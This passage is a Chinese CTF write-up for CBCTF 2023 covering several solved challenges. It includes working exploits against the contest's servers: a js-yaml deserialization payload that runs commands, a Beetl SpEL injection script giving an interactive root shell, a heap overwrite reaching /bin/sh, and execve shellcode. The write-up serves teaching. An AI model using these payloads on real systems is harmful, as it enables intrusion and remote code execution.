

杭州电子科技大学网络安全赛博协会 0RAYS 战队第七届 "赛博杯" 网络安全大赛 (CBCTF 2023) (<https://mp.weixin.qq.com/s/M6hdEf4thXjYwVF0QlAH7A>)

**官方仓库及 Writeup**: [0RAYS/2023-CBCTF](https://github.com/0RAYS/2023-CBCTF)

原始文档发布于<https://vidar-team.feishu.cn/docx/BlJFd0xs0oNYHExOJiAcpzFXnQf>.

------

## 竞赛结果与个人信息

> * **Name**: [REDACTED]
> * **Student ID**: [REDACTED]
> * **Alias**: csmantle
> * **Mail**: [REDACTED]
> * **QQ**: [REDACTED]
> * **Rank**: 1
> * **Score**: 14377
> * **Breakdown**: Misc\*3; Web\*4; RE\*9 (AK); Pwn\*2; 签到\*1; PyJail\*9
> * **Achievements**: FB\*5


## 竞赛信息

> * **URL**: <https://training.0rays.club/challenges>
> * **Username**: csmantle (Individual participation)
> * **Password**: N/A
> * **Start Time**: 2023-12-30 09:00
> * **End Time**: 2024-01-01 20:00
> * **Writeup Submission Deadline**: 2024-01-01 23:00

## Web

### BeginnerTetris | Done

> 送一血咯 先到先得

<!-- seo-excerpt-separator -->





<https://cyberchef.org/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true,false)&input=Wm14aFozdFpUM1V4Y21WZlpuSXdiblE9ClgwVnVaRjl0UVhOME1YSmZObDQyZlE9PQ>

`flag{YOu1re_fr0nt_End_mAst1r_6^6}`

### Another_Signin | Done

> 这不是道 web 题，有没有仔细看宣传海报上的内容呢？
> 
> * Hint 1: 关注一下域名 （可能有些谜语人了
> * Hint 2: dns

想到 DNS 的 TXT 记录。

```
mantlebao@LAPTOP-RONG-BAO:~$ dig TXT game.0rays.club.

; <<>> DiG 9.18.18-0ubuntu0.22.04.1-Ubuntu <<>> TXT game.0rays.club.
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 4222
;; flags: qr rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 1232
;; QUESTION SECTION:
;game.0rays.club.               IN      TXT

;; ANSWER SECTION:
game.0rays.club.        600     IN      TXT     "CBCTF{Txt_is_@_rea1_fl4g}"

;; Query time: 39 msec
;; SERVER: 127.0.0.42#53(127.0.0.42) (UDP)
;; WHEN: Sat Dec 30 18:15:13 CST 2023
;; MSG SIZE  rcvd: 82

mantlebao@LAPTOP-RONG-BAO:~$
```

`CBCTF{Txt_is_@_rea1_fl4g}`

### Uninvited Guest | Done

> A simple YAML format checker. Be careful because it affects your social credit.

打开代码发现一行注释：

```javascript
// Allow deserialization of functions
// which's not part of the challenge
// see https://github.com/nodeca/js-yaml/blob/3.14.1/README.md#load-string---options- for details
import pkg from 'js-yaml'; const { load } = pkg;
import path from 'path';
```

“which's not part of the challenge”——我信你个锤子。

打开链接发现一个 poc：


观察提供的代码发现 app 本身没有回显，但是服务器将所有 `/app/static/` 下的文件都 serve 了，那么我们可以用这个目录来回显。

坏消息：本题开启了 `"type": "module"`，不能使用 `require` 直接导入模块。好消息：ES module 可以使用 import 导入模块。那么我们可以方便地构造一个 Thenable object：

```javascript
{
    then: (f, r) => {
        import("child_process").then((m) => {
            console.log(m.exec("/readflag > /app/static/flag.txt").pid);
        });
        f();
    }
}
```

然后塞到 yml 里面去。这里需要对 dynamic import 做成 eval 字符串，否则会失败。猜测：esprima 将包含了 import 的代码段认为是 ES module 而不是 Program 之类的，所以校验通不过。**该猜测未经检验。**

```yaml
then: !<tag:yaml.org,2002:js/function> >-
  (f, r) => {
    eval("import('child_process').then((m) => { console.log(m.exec('/readflag > /app/static/flag.txt').pid); });");
    f();
  }
```


`CBCTF{07d950c9-01e2-4d58-a35f-d85f216a2212}`

### hackBeetl | Done

> /?username=jbnrz
> 
> * Hint 1: beetl 版本 3.15.12.RELEASE <https://gitee.com/xiandafu/beetl>

Jadx 打开提供的 jar 文件，发现使用了一个有漏洞的 Beetl 版本。


那么就是经典 SpEL 注入，但是可调用的方法有限。

我们最终需要使 `java.lang.Runtime.exec(String)` 有回显，而这需要构造一个 `java.util.Scanner` 对象，但是显然由于黑名单的存在不能直接构造。幸运的是，`org.springframework.util.ClassUtils.getConstructorIfAvailable` 给我们提供了获取构造函数的方法。

<https://docs.spring.io/spring-framework/docs/6.0.0/javadoc-api/org/springframework/util/ClassUtils.html>

那么解法是显然的。


```python
import urllib.parse as up

from pwn import *
from requests import request

TEMPLATE = """__${{
    @org.springframework.util.ClassUtils.getConstructorIfAvailable(
        @org.springframework.util.ClassUtils.getDefaultClassLoader().loadClass('java.util.Scanner'),
        @org.springframework.util.ClassUtils.getDefaultClassLoader().loadClass('java.io.InputStream')
    ).newInstance(
        @org.springframework.beans.BeanUtils.findDeclaredMethod(
            @org.springframework.util.ClassUtils.getDefaultClassLoader().loadClass('java.lang.Runtime'),
            'exec',
            @org.springframework.util.ClassUtils.getDefaultClassLoader().loadClass('java.lang.String')
        ).invoke(
            @org.springframework.beans.BeanUtils.findDeclaredMethodWithMinimalParameters(
                @org.springframework.util.ClassUtils.getDefaultClassLoader().loadClass('java.lang.Runtime'), 'getRuntime'
            ).invoke(null, null),
            '{cmd}'
        ).getInputStream()
    ).useDelimiter('\\\\A').next()
}}__::.x"""
RE_RESULT = re.compile(r"^hello __(.*)__::.x$")

def get_result(cmd):
    retline = ""
    dict = up.urlencode(
        {
            "username": TEMPLATE.format(cmd=cmd),
        }
    )
    url = (
        f"http://e0a9ba83-8937-4113-8607-d06b7cedbf32.training.0rays.club:8001/?{dict}"
    )
    result = request("GET", url)
    if not result.ok:
        error("Not ok")
        exit(1)
    line = result.text.strip()
    return line

while True:
    try:
        inp = input("cmd > ")
        if inp.strip() == "":
            break
        success(get_result(inp))
    except KeyboardInterrupt:
        info("KeyboardInterrupt")
        exit(0)
```


```
(pwnenv) PS D:\Workspace\rev\cbctf2023> & d:/Workspace/pwnenv/Scripts/python.exe d:/Workspace/rev/cbctf2023/hackBeetl/sol.py
cmd > id
[+] hello __uid=0(root) gid=0(root) groups=0(root)
    __::.x
cmd > ls -la /
[+] hello __total 84
    drwxr-xr-x   1 root root 4096 Dec 31 13:04 .
    drwxr-xr-x   1 root root 4096 Dec 31 13:04 ..
    -rwxr-xr-x   1 root root    0 Dec 31 13:04 .dockerenv
    drwxr-xr-x   1 root root 4096 Dec 31 13:04 app
    drwxr-xr-x   2 root root 4096 Dec  1  2021 bin
    drwxr-xr-x   2 root root 4096 Oct  3  2021 boot
    drwxr-xr-x   5 root root  340 Dec 31 13:04 dev
    drwxr-xr-x   1 root root 4096 Dec 31 13:04 etc
    -rw-r--r--   1 root root   44 Dec 31 13:04 fll11l1aaaAe12aaaagg55g5g5GGg
    drwxr-xr-x   2 root root 4096 Oct  3  2021 home
    drwxr-xr-x   1 root root 4096 Dec  1  2021 lib
    drwxr-xr-x   2 root root 4096 Dec  1  2021 lib64
    drwxr-xr-x   2 root root 4096 Dec  1  2021 media
    drwxr-xr-x   2 root root 4096 Dec  1  2021 mnt
    drwxr-xr-x   2 root root 4096 Dec  1  2021 opt
    dr-xr-xr-x 886 root root    0 Dec 31 13:04 proc
    drwx------   1 root root 4096 Dec  2  2021 root
    drwxr-xr-x   3 root root 4096 Dec  1  2021 run
    drwxr-xr-x   2 root root 4096 Dec  1  2021 sbin
    drwxr-xr-x   2 root root 4096 Dec  1  2021 srv
    dr-xr-xr-x  13 root root    0 Dec 31 13:04 sys
    drwxrwxrwt   1 root root 4096 Dec 31 13:05 tmp
    drwxr-xr-x   1 root root 4096 Dec  1  2021 usr
    drwxr-xr-x   1 root root 4096 Dec  1  2021 var
    __::.x
cmd > cat /fll11l1aaaAe12aaaagg55g5g5GGg
[+] hello __CBCTF{867656f3-d40d-48ab-972d-f8cd1d155239}
    __::.x
cmd > [*] KeyboardInterrupt
(pwnenv) PS D:\Workspace\rev\cbctf2023>
```

`CBCTF{867656f3-d40d-48ab-972d-f8cd1d155239}`

## Pwn

### heap1 | Done

> 不麻烦选手搞什么 patchelf 了 shell 点击就送

```c
__int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  int v4; // [rsp+Ch] [rbp-4h] BYREF

  fun_init();
  while ( 1 )
  {
    fun_print_menu();
    v4 = 0;
    __isoc99_scanf("%d", &v4);
    switch ( v4 )
    {
      case 1:
        fun_add();
        break;
      case 2:
        fun_free();
        break;
      case 3:
        fun_edit();
        break;
      case 4:
        fun_show();
        break;
      case 5:
        if ( g_target == 0x656572545F676553LL )  // "Seg_Tree\0"
          system("/bin/sh");
        return 0LL;
      default:
        puts("wrong choice!");
        break;
    }
  }
}
```


覆盖 `g_target`，使程序正常运行，即可 getshell。

```c
void __fastcall fun_add()
{
  int v0; // ebx
  int size; // [rsp+8h] [rbp-18h] BYREF
  int idx; // [rsp+Ch] [rbp-14h] BYREF

  printf("idx:");
  __isoc99_scanf("%d", &idx);
  printf("size:");
  __isoc99_scanf("%d", &size);
  if ( idx >= 0 && idx < g_n_chunks )
  {
    v0 = idx;
    g_chunks[v0] = malloc(size);
    g_chunks[idx + 32] = (void *)size;
  }
  else
  {
    puts("out of range");
  }
}

void __fastcall fun_free()
{
  int idx; // [rsp+Ch] [rbp-4h] BYREF

  printf("idx:");
  __isoc99_scanf("%d", &idx);
  if ( g_chunks[idx] )
  {
    free(g_chunks[idx]);
    g_chunks[idx] = 0LL;
    g_chunks[idx + 32] = 0LL;
  }
  else
  {
    puts("no chunk");
  }
}

void __fastcall sub_401354(unsigned __int8 *buf, int len)
{
  int i; // [rsp+1Ch] [rbp-4h]

  for ( i = read(0, buf, len); i; --i )
  {
    if ( buf[i] == 10 )
    {
      buf[i] = 0;
      return;
    }
  }
}

void __fastcall fun_edit()
{
  int idx; // [rsp+Ch] [rbp-4h] BYREF

  printf("idx:");
  __isoc99_scanf("%d", &idx);
  if ( g_chunks[idx] )
  {
    printf("content:");
    sub_401354((unsigned __int8 *)g_chunks[idx], (int)g_chunks[idx + 32]);
  }
  else
  {
    puts("no chunk");
  }
}

void __fastcall fun_show()
{
  int v0; // [rsp+Ch] [rbp-4h] BYREF

  printf("idx:");
  __isoc99_scanf("%d", &v0);
  if ( g_chunks[v0] )
    write(1, g_chunks[v0], (size_t)g_chunks[v0 + 32]);
  else
    puts("no chunk");
}
```

bss 区的位置是固定的：

```
[*] '/mnt/d/Workspace/rev/cbctf2023/heap1/heap1'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

那么这道题就不难得到思路了。

1. 覆写 `g_n_chunks`，使得第 2 步得以进行。执行一次 add，参数为 idx==31、size>64。效果：将 `g_n_chunks` 覆盖为 size 的值。副作用：将 `g_chunks[31]` 赋值为某个地址。
2. 构造 `len`。执行一次 add，参数为 idx==idx_1>32、size>8。效果：将界外 bss 区内存 `g_chunks[idx_1+32]` 设定为 size 的值。副作用：将 `g_chunks[idx_1]` 赋值为某个地址。
3. 构造 `buf`。执行一次 add，参数为 idx==idx_1-32、size==0x4040C0。效果：将 `g_chunks[idx_1]` 赋值为 size 的值，也就是 `g_target` 的地址。副作用：将 `g_chunks[idx_1-32]` 赋值为某个地址。
4. 写入 `g_target`。执行一次 edit，参数为 idx==idx_1、stdin 包含"Seg_Tree\n"。效果：向 `*g_chunks[idx_1]` 写入长度不超过 `g_chunks[idx_1+32` 的 stdin 内容。
5. getshell。执行一次 exit 即可。

```
PS D:\Workspace\rev\cbctf2023\heap1> ncat training.0rays.club 10055
1.add
2.free
3.edit
4.show
5.exit
choice:1
idx:31
size:128
1.add
2.free
3.edit
4.show
5.exit
choice:1
idx:33
size:64
1.add
2.free
3.edit
4.show
5.exit
choice:1
idx:1
size:4210880
1.add
2.free
3.edit
4.show
5.exit
choice:3
idx:33
content:Seg_Tree
1.add
2.free
3.edit
4.show
5.exit
choice:5
whoami
/bin/sh: 1: whoami: not found
cat /flag
CBCTF{1ca5db12-36d7-4d8f-bbf0-5d0a7e916c64}
PS D:\Workspace\rev\cbctf2023\heap1>
```

`CBCTF{1ca5db12-36d7-4d8f-bbf0-5d0a7e916c64}`

### The Legend of Shellcode | Done

受限的 shellcode 构造

```
[*] '/mnt/d/Workspace/rev/cbctf2023/the_legend_of_shellcode/code'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX unknown - GNU_STACK missing
    PIE:      PIE enabled
    Stack:    Executable
    RWX:      Has RWX segments
```

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  int result; // eax
  uint8_t s[96]; // [rsp+0h] [rbp-70h] BYREF
  unsigned __int64 v5; // [rsp+68h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  init(argc, argv, envp);
  memset(s, '\xC3', sizeof(s));
  puts("Welcome2TheLegendOfShellCode!");
  puts("Now show me your wisdom:");
  read(0, s, 9uLL);
  puts("Now show me your courage:");
  read(0, &s[16], 9uLL);
  puts("Now show me your strength:");
  read(0, &s[32], 9uLL);
  puts("Now show me your flesh:");
  read(0, &s[48], 9uLL);
  puts("Now show me your thought:");
  read(0, &s[64], 9uLL);
  puts("Now show me your soul:");
  read(0, &s[80], 9uLL);
  puts("Keep going!Wish you could bring peace to hararu");
  __asm { jmp     rax }                         // JMP to s
  return result;
}
```

```
0x00 - ?? ?? ?? ?? ?? ?? ?? ??
0x08 - ?? C3 C3 C3 C3 C3 C3 C3
0x10 - ?? ?? ?? ?? ?? ?? ?? ??
0x18 - ?? C3 C3 C3 C3 C3 C3 C3
0x20 - ?? ?? ?? ?? ?? ?? ?? ??
0x28 - ?? C3 C3 C3 C3 C3 C3 C3
0x30 - ?? ?? ?? ?? ?? ?? ?? ??
0x38 - ?? C3 C3 C3 C3 C3 C3 C3
0x40 - ?? ?? ?? ?? ?? ?? ?? ??
0x48 - ?? C3 C3 C3 C3 C3 C3 C3
0x50 - ?? ?? ?? ?? ?? ?? ?? ??
0x88 - ?? C3 C3 C3 C3 C3 C3 C3
```

受到 ISCTF 2023 中 abstract_shellcode 一题的启发，尝试构造一个 syscall shellcode，并且满足长度条件：

```python
from pwn import *

elf_code = ELF("./code")
context.binary = elf_code

PAYLOADS = (
    ("MOV cl, 16; MOV bl, 0x68; SHL ebx, cl; JMP $+10", b"Now show me your wisdom:"),
    ("MOV bx, 0x732f; SHL rbx, cl; JMP $+9", b"Now show me your courage:"),
    ("MOV bx, 0x6e69; SHL rbx, cl; JMP $+9", b"Now show me your strength:"),
    ("MOV bx, 0x622f; XOR rsi, rsi; JMP $+9", b"Now show me your flesh:"),
    ("PUSH rsi; XOR rdi, rdi; JMP $+12", b"Now show me your thought:"),
    (
        "PUSH rbx; PUSH rsp; POP rdi; PUSH 0x3b; POP rax; CDQ; SYSCALL",
        b"Now show me your soul:",
    ),
)

# with remote("localhost", 8888) as r:
# with process("./code") as r:
with remote("training.0rays.club", 10068) as r:
    for i, (payload, prompt) in enumerate(PAYLOADS):
        payload = asm(payload)
        r.sendafter(prompt, payload)
        info(f"Payload {i} sent: {payload}")
    r.interactive()
```

~~本地能过，远程不能过。出题人说没有禁止 syscall。不知道了~~

突然想明白了，`"/bin/sh"` 需要以 0 结尾，本地恰好是 0，但是远端没有那么幸运。

```python
from pwn import *

elf_code = ELF("./code")
context.binary = elf_code

PAYLOADS = (
    ("MOV cl, 16; MOV bx, 0x0068; JMP $+10", b"Now show me your wisdom:"),
    ("SHL rbx, cl; MOV bx, 0x732f; JMP $+9", b"Now show me your courage:"),
    ("SHL rbx, cl; MOV bx, 0x6e69; JMP $+9", b"Now show me your strength:"),
    ("SHL rbx, cl; MOV bx, 0x622f; JMP $+9", b"Now show me your flesh:"),
    ("XOR rsi, rsi; PUSH rsi; XOR rdi, rdi; JMP $+9", b"Now show me your thought:"),
    (
        "PUSH rbx; PUSH rsp; POP rdi; PUSH 0x3b; POP rax; CDQ; SYSCALL",
        b"Now show me your soul:",
    ),
)

# with remote("localhost", 8888) as r:
# with process("./code") as r:
with remote("training.0rays.club", 10068) as r:
    for i, (payload, prompt) in enumerate(PAYLOADS):
        payload = asm(payload)
        r.sendafter(prompt, payload)
        info(f"Payload {i} sent: {payload}")
    r.interactive()
```

最后的 shellcode 长这样：

```assembly
MOV cl, 16
MOV bx, 0x0068
JMP L_N1
nop  ; junk
nop  ; junk
nop  ; junk
nop  ; junk
nop  ; junk
nop  ; junk
nop  ; junk
nop  ; junk

L_N1:
SHL rbx, cl
MOV bx, 0x732f
JMP L_N2
nop  ; junk
nop  ; junk
nop  ; junk
nop  ; junk
nop  ; junk
nop  ; junk
nop  ; junk

L_N2:
SHL rbx, cl
MOV bx, 0x6e69
JMP L_N3
nop  ; junk
nop  ; junk
nop  ; junk
nop  ; junk
nop  ; junk
nop  ; junk
nop  ; junk

L_N3:
SHL rbx, cl
MOV bx, 0x622f
JMP L_N4
nop  ; junk
nop  ; junk
nop  ; junk
nop  ; junk
nop  ; junk
nop  ; junk
nop  ; junk

L_N4:
XOR rsi, rsi
PUSH rsi
XOR rdi, rdi
JMP L_N5
nop  ; junk
nop  ; junk
nop  ; junk
nop  ; junk
nop  ; junk
nop  ; junk
nop  ; junk

L_N5:
PUSH rbx
PUSH rsp
POP rdi
PUSH 0x3b
POP rax
CDQ
SYSCALL
```

```
mantlebao@LAPTOP-RONG-BAO:/mnt/d/Workspace/rev/cbctf2023/the_legend_of_shellcode$ python ./sol.py
[*] '/mnt/d/Workspace/rev/cbctf2023/the_legend_of_shellcode/code'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX unknown - GNU_STACK missing
    PIE:      PIE enabled
    Stack:    Executable
    RWX:      Has RWX segments
[+] Opening connection to training.0rays.club on port 10068: Done
[*] Payload 0 sent: b'\xb1\x10f\xbbh\x00\xeb\x08'
[*] Payload 1 sent: b'H\xd3\xe3f\xbb/s\xeb\x07'
[*] Payload 2 sent: b'H\xd3\xe3f\xbbin\xeb\x07'
[*] Payload 3 sent: b'H\xd3\xe3f\xbb/b\xeb\x07'
[*] Payload 4 sent: b'H1\xf6VH1\xff\xeb\x07'
[*] Payload 5 sent: b'ST_j;X\x99\x0f\x05'
[*] Switching to interactive mode

Keep going!Wish you could bring peace to hararu
$ cat /flag
CBCTF{e9a57b49-1359-4b20-b987-52719fc65fe9}
$
[*] Interrupted
[*] Closed connection to training.0rays.club port 10068
mantlebao@LAPTOP-RONG-BAO:/mnt/d/Workspace/rev/cbctf2023/the_legend_of_shellcode$
```

`CBCTF{e9a57b49-1359-4b20-b987-52719fc65fe9}`

## Reverse | AK

### 原来你也玩原神 | Done

> What is your favorite Genshin Impact character?

Themida ~~+ 修复 PE~~

被 unlicense 和中文坑的一天！

```
PS D:\Workspace\rev\cbctf2023\原来你也玩原神\attachment> D:\bdist\unlicense-py3.11-x64\unlicense.exe .\原来你也玩原神.exe --verbose
ERROR - Failed to parse PE '.\原来你也玩原神.exe'
ERROR - Failed to automatically detect packer version
PS D:\Workspace\rev\cbctf2023\原来你也玩原神\attachment> cp .\原来你也玩原神.exe target.exe
PS D:\Workspace\rev\cbctf2023\原来你也玩原神\attachment> D:\bdist\unlicense-py3.11-x64\unlicense.exe .\target.exe --verbose
INFO - Detected packer version: 3.x
DEBUG - Probed .text section at (0x1000, 0xe7c)
frida-agent: Setting up OEP tracing for "target.exe"
frida-agent: Exception handler registered
frida-agent: OEP found (thread #4672): 0x7ff6abce1390
INFO - OEP reached: OEP=0x7ff6abce1390 BASE=0x7ff6abce0000 DOTNET=False
INFO - Looking for the IAT...
DEBUG - Exports count: 19415
INFO - Performing linear scan in data sections...
...
INFO - Output file has been saved at 'unpacked_target.exe'
PS D:\Workspace\rev\cbctf2023\原来你也玩原神\attachment>
```


`CBCTF{I_hate_Genshin_Impact_and_Two_spiny_newts}`

### TIVM-Checkin | Done

> Welcome to the magical world of virtual machine!

SubLEq 虚拟机

<https://esolangs.org/wiki/Subleq>

#### 解法 1：侧信道攻击

编写 tracer

```python
import sys

buf = []
def getchar():
    global buf
    while len(buf) <= 0:
        buf = list(input().encode())
        buf.append(0x0a)
    return buf.pop(0)

def run():
    mem = eval(open('checkin.tricode', 'r').read())
    ip = 0
    size = len(mem)
    while ip + 2 < size:
        a1 = mem[ip]
        a2 = mem[ip + 1]
        a3 = mem[ip + 2]
        next_jump = ip + 3

        if a2 & 0x80000000 != 0:
            print(f"{str(ip).ljust(4)}\tOUT\t[{a1}]", file=sys.stderr)
            
            print(chr(mem[a1]), end='')
        elif a1 & 0x80000000 != 0:
            print(f"{str(ip).ljust(4)}\tIN\t[{a2}]", file=sys.stderr)
            mem[a2] = getchar()
        else:
            mem[a2] = (mem[a2] - mem[a1]) & 0xffffffff
            if mem[a2] == 0 or mem[a2] & 0x80000000 != 0:
                print(f"{str(ip).ljust(4)}\tSUBLEQ\t[{a2}], [{a1}], {a3}\t; Taken", file=sys.stderr)
                next_jump = a3
            else:
                print(f"{str(ip).ljust(4)}\tSUBLEQ\t[{a2}], [{a1}], {a3}\t; Not taken", file=sys.stderr)

        ip = next_jump
    
if __name__ == "__main__":
    run()
```

第一位输入为非数字时，发现一个未跳转的 jump

```
(pwnenv) PS D:\Workspace\rev\cbctf2023\TIVM-Checkin\checkin> & d:/Workspace/pwnenv/Scripts/python.exe d:/Workspace/rev/cbctf2023/TIVM-Checkin/checkin/decode.py 2>./out.txt
Welcome to CBCTF 2023!
Now guess my lucky number:flag
wrong
(pwnenv) PS D:\Workspace\rev\cbctf2023\TIVM-Checkin\checkin>
```

```
0           SUBLEQ        [0], [0], 52        ; Taken
52          OUT        [3]
55          OUT        [4]
...
196         OUT        [51]
199         SUBLEQ        [0], [0], 203        ; Taken
203         IN        [202]
206         SUBLEQ        [0], [0], 210        ; Taken
210         SUBLEQ        [0], [0], 215        ; Taken
215         SUBLEQ        [213], [213], 218        ; Taken
218         SUBLEQ        [213], [202], 221        ; Taken
221         SUBLEQ        [214], [214], 224        ; Taken
224         SUBLEQ        [214], [209], 227        ; Taken
227         SUBLEQ        [213], [214], 233        ; Taken
233         SUBLEQ        [214], [214], 236        ; Taken
236         SUBLEQ        [214], [213], 242        ; Not taken
239         SUBLEQ        [0], [0], 840        ; Taken
840         OUT        [835]
843         OUT        [836]
846         OUT        [837]
849         OUT        [838]
852         OUT        [839]
855         SUBLEQ        [0], [0], 859        ; Taken
859         OUT        [858]
```

第一位输入为 1 时，该跳转发生：

```
(pwnenv) PS D:\Workspace\rev\cbctf2023\TIVM-Checkin\checkin> & d:/Workspace/pwnenv/Scripts/python.exe d:/Workspace/rev/cbctf2023/TIVM-Checkin/checkin/decode.py 2>./out.txt   
Welcome to CBCTF 2023!                                    
Now guess my lucky number:1
wrong
(pwnenv) PS D:\Workspace\rev\cbctf2023\TIVM-Checkin\checkin>
```

```
0           SUBLEQ        [0], [0], 52        ; Taken
52          OUT        [3]
55          OUT        [4]
...
196         OUT        [51]
199         SUBLEQ        [0], [0], 203        ; Taken
203         IN        [202]
206         SUBLEQ        [0], [0], 210        ; Taken
210         SUBLEQ        [0], [0], 215        ; Taken
215         SUBLEQ        [213], [213], 218        ; Taken
218         SUBLEQ        [213], [202], 221        ; Taken
221         SUBLEQ        [214], [214], 224        ; Taken
224         SUBLEQ        [214], [209], 227        ; Taken
227         SUBLEQ        [213], [214], 233        ; Taken
233         SUBLEQ        [214], [214], 236        ; Taken
236         SUBLEQ        [214], [213], 242        ; Taken
242         IN        [202]
245         SUBLEQ        [0], [0], 249        ; Taken
249         SUBLEQ        [0], [0], 254        ; Taken
254         SUBLEQ        [252], [252], 257        ; Taken
257         SUBLEQ        [252], [202], 260        ; Taken
260         SUBLEQ        [253], [253], 263        ; Taken
263         SUBLEQ        [253], [248], 266        ; Taken
266         SUBLEQ        [252], [253], 272        ; Not taken
269         SUBLEQ        [0], [0], 840        ; Taken
840         OUT        [835]
843         OUT        [836]
846         OUT        [837]
849         OUT        [838]
852         OUT        [839]
855         SUBLEQ        [0], [0], 859        ; Taken
859         OUT        [858]
```

于是尝试爆破.

结果为 114514.

```
(pwnenv) PS D:\Workspace\rev\cbctf2023\TIVM-Checkin\checkin> & d:/Workspace/pwnenv/Scripts/python.exe d:/Workspace/rev/cbctf2023/TIVM-Checkin/checkin/decode.py 2>./out.txt
Welcome to CBCTF 2023!
Now guess my lucky number:114514
Great! Here is your flag:
CBCTF{W31c0me_to_C8CTF2O23!!!}
(pwnenv) PS D:\Workspace\rev\cbctf2023\TIVM-Checkin\checkin>
```

#### 解法 2：branch-based disasm (TODO)

不难发现这种数据 + 指令混合的 vm 字节码不能使用 linear sweep.

TODO: 还没写，复盘再写

### Misc | Done

> What is this?I almost collapsed after learning fuzz, so I want to disgust you too.

```
PS D:\Workspace\rev\cbctf2023\rev_misc> ncat training.0rays.club 10023
Enter your seed (43 characters): aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabbb
flag coverage:4.65%


Ncat: 你的主机中的软件中止了一个已建立的连接。 .
PS D:\Workspace\rev\cbctf2023\rev_misc>
```

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  size_t v4; // rax
  double v5; // xmm0_8
  int v6; // [rsp+10h] [rbp-90h]
  int i; // [rsp+14h] [rbp-8Ch]
  FILE *stream; // [rsp+18h] [rbp-88h]
  char v9[48]; // [rsp+20h] [rbp-80h] BYREF
  char s[56]; // [rsp+50h] [rbp-50h] BYREF
  unsigned __int64 v11; // [rsp+88h] [rbp-18h]

  v11 = __readfsqword(0x28u);
  v6 = 0;
  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stderr, 0LL, 2, 0LL);
  stream = fopen("flag", "r");
  if ( stream )
  {
    fgets(s, 44, stream);
    fclose(stream);
    printf("Enter your seed (43 characters): ");
    if ( !fgets(v9, 44, stdin) )
    {
      puts("Error reading input.");
      exit(0);
    }
    v9[strcspn(v9, "\n")] = 0;
    if ( strlen(v9) != 43 )
    {
      puts("Error reading input.");
      exit(0);
    }
    for ( i = 0; i < strlen(v9); ++i )
    {
      if ( v9[i] == s[i] )
        ++v6;
    }
    v4 = strlen(v9);
    if ( (v4 & 0x8000000000000000LL) != 0LL )
      v5 = (double)(int)(v4 & 1 | (v4 >> 1)) + (double)(int)(v4 & 1 | (v4 >> 1));
    else
      v5 = (double)(int)v4;
    printf("flag coverage:%.2f%%\n", 100.0 * ((double)v6 / v5));
    return 0;
  }
  else
  {
    perror("Error opening file");
    return -1;
  }
}
```

尝试获取 maximum coverage. 先想办法获取输入分布的 heuristics. 这步遗传算法板子可套.

手动找出前后 padding：

```
PS D:\Workspace\rev\cbctf2023\rev_misc> ncat training.0rays.club 10078
Enter your seed (43 characters): cbctf{aaabaaacaaadaaaeaaafaaagaaahaaaiaaaj!
flag coverage:2.33%

cbctf{aaabaaacaaadaaaeaaafaaagaaahaaaiaaaj!
PS D:\Workspace\rev\cbctf2023\rev_misc> ncat training.0rays.club 10078
Enter your seed (43 characters): !!!!!{aaabaaacaaadaaaeaaafaaagaaahaaaiaaaj}
flag coverage:4.65%

PS D:\Workspace\rev\cbctf2023\rev_misc> ncat training.0rays.club 10078
Enter your seed (43 characters): CBCTF{aaabaaacaaadaaaeaaafaaagaaahaaaiaaaj}
flag coverage:16.28%

PS D:\Workspace\rev\cbctf2023\rev_misc> ncat training.0rays.club 10078
Enter your seed (43 characters): CBCT!{aaabaaacaaadaaaeaaafaaagaaahaaaiaaaj}
flag coverage:13.95%
PS D:\Workspace\rev\cbctf2023\rev_misc> ncat training.0rays.club 10078
Enter your seed (43 characters): CBC!!{aaabaaacaaadaaaeaaafaaagaaahaaaiaaaj}
flag coverage:11.63%
PS D:\Workspace\rev\cbctf2023\rev_misc> ncat training.0rays.club 10078
Enter your seed (43 characters): CB!!!{aaabaaacaaadaaaeaaafaaagaaahaaaiaaaj}
flag coverage:9.30%
PS D:\Workspace\rev\cbctf2023\rev_misc> ncat training.0rays.club 10078
Enter your seed (43 characters): C!!!!{aaabaaacaaadaaaeaaafaaagaaahaaaiaaaj}
flag coverage:6.98%
PS D:\Workspace\rev\cbctf2023\rev_misc>
```

目前已知：`CBCTF{...*36}`

难道是 GUID？

板子：

```python
import re

import pygad
from pwn import *

context.log_level = "error"

